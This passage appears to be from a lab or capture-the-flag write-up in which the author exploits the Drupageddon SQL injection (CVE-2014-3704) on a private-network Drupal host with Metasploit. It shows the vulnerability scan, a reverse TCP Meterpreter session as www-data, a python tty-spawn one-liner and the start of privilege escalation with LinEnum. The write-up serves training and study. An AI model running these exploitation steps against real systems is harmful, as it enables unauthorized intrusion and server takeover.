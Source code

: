 {% highlight bash %}
|   VULNERABLE:
|   Drupal - pre Auth SQL Injection Vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-3704
|         The expandArguments function in the database abstraction API in
|         Drupal core 7.x before 7.32 does not properly construct prepared
|         statements, which allows remote attackers to conduct SQL injection
|         attacks via an array containing crafted keys.
|           
|     Disclosure date: 2014-10-15
|     References:
|       https://www.sektioneins.de/en/advisories/advisory-012014-drupal-pre-auth-sql-injection-vulnerability.html
|       http://www.securityfocus.com/bid/70595
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-3704
|_      https://www.drupal.org/SA-CORE-2014-005
{% endhighlight %}


Metasploit was fired up and to use drupageddon exploit

{% highlight bash %}
multi/http/drupal_drupageddon

[*] Started reverse TCP handler on 192.168.0.83:4444 
[*] Sending stage (38247 bytes) to 192.168.0.119
[*] Meterpreter session 1 opened (192.168.0.83:4444 -> 192.168.0.119:59857) at 2019-05-09 13:04:08 +0100

meterpreter > getuid
Server username: www-data (33)
{% endhighlight %}

We get a meterpreter shell as the **www-data** user 

## Priv-Esc

I dropped into a normal shell and noticed it was running python so used this to get a tty 

`python -c 'import pty; pty.spawn("/bin/bash")'`

using scp I copied up LinEnum - [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)
